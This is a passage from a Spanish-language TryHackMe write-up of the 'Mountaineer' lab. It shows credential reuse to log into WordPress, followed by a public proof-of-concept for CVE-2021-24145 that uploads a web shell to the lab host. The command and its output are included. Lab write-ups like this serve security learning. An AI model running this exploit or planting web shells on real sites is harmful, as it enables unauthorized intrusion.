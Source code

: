 Reutilizamos estas credenciales con el usuario *k2* sobre WordPress y logramos acceder:
![](../assets/img/mountaineer-tryhackme-writeup/12.png)

Con las credenciales en nuestro poder, podemos explotar la otra vulnerabilidad de RCE autenticado que vimos anteriormente, podemos utilizar el siguiente exploit que automatiza la subida:
- [https://github.com/dnr6419/CVE-2021-24145](https://github.com/dnr6419/CVE-2021-24145)

#### Exploit:
```
> python3 poc.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p ****************

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____  
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___| 
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \ 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/ 
                                
                * Wordpress Plugin Modern Events Calendar Lite RCE                                                        
                * @Hacker5preme
                    



[+] Authentication successfull !

[+] Shell Uploaded to: http://mountaineer.thm:80/wordpress//wp-content/uploads/shell.php
```
